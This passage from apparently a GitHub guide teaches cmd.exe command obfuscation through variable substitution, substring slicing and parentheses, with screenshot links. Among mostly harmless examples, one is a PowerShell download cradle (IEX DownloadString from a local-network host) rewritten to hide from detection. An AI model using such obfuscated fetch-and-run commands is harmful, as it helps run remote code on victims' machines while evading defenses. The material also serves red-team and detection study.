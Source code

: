       This technic can also be used to replace the [ @ ] special character in local environment
      variable by the char missing on it ( in this example the char missing in command is: [ t ] )

- String obfuscated<br />
`cmd.exe /c "set x=ne@s@a@&&echo %x:@=t% | cmd"`

![pipe commands](http://i.cubeupload.com/8ySlqV.jpg)

      Remove the first and the last character of a string

- String obfuscated<br />
``cmd.exe /c "set x=inetstatu&&set str=%x:~1,-1%&&echo %str% | cmd"``

![pipe commands](http://i.cubeupload.com/y1kA6G.jpg)

      Returning a specified number of characters from the left side of a string

- String obfuscated<br />
`cmd.exe /c "set x=netstatrubish&&set str=%x:~0,7%&&echo %str% | cmd"`

![pipe commands](http://i.cubeupload.com/McTrjq.jpg)

      Using the delimiter remove technic into one cradle downloader (powershell or batch)

- String command to obfuscate<br />
`cmd.exe /c powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.71/hello.ps1')`

- String obfuscated<br />

      cmd.exe /c "set x=po@wer@sh@ell.ex@e I@E@X (N@ew-O@bje@ct @Ne@t.@WebC@lie@nt).Do@wnl@oad@St@ri@ng('ht'+'@tp:'+'//@1'+'92@.1'+'6@8.'+'1.71/he@ll@o.ps@1')&&echo %x:@=% | cmd"

![pipe commands](http://i.cubeupload.com/tv0oWc.jpg)

- More obfuscated using carets special batch characters<br />

![pipe commands](http://i.cubeupload.com/EhLChy.jpg)

---

      [ Parentheses obfuscation ] Evenly-paired parentheses can encapsulate individual commands
      in cmd.exe’s arguments without affecting the execution of each command. These unnecessary
      parenthesis characters indicate the implied sub-command grouping interpreted by cmd.exe’s
      argument processor. Paired parentheses can be liberally applied for obfuscation purposes.

<br />

- String command to obfuscate<br />
`cmd.exe /c whoami && netstat`

- String obfuscated [double Parentheses]<br />
`cmd.exe /c ((whoami)) && ((netstat))`<br />

![batch obfuscation](http://i.cubeupload.com/72IYdJ.jpg)

- string more obfuscated using: Parentheses+carets+double_quotes+collon+semi-collon<br />
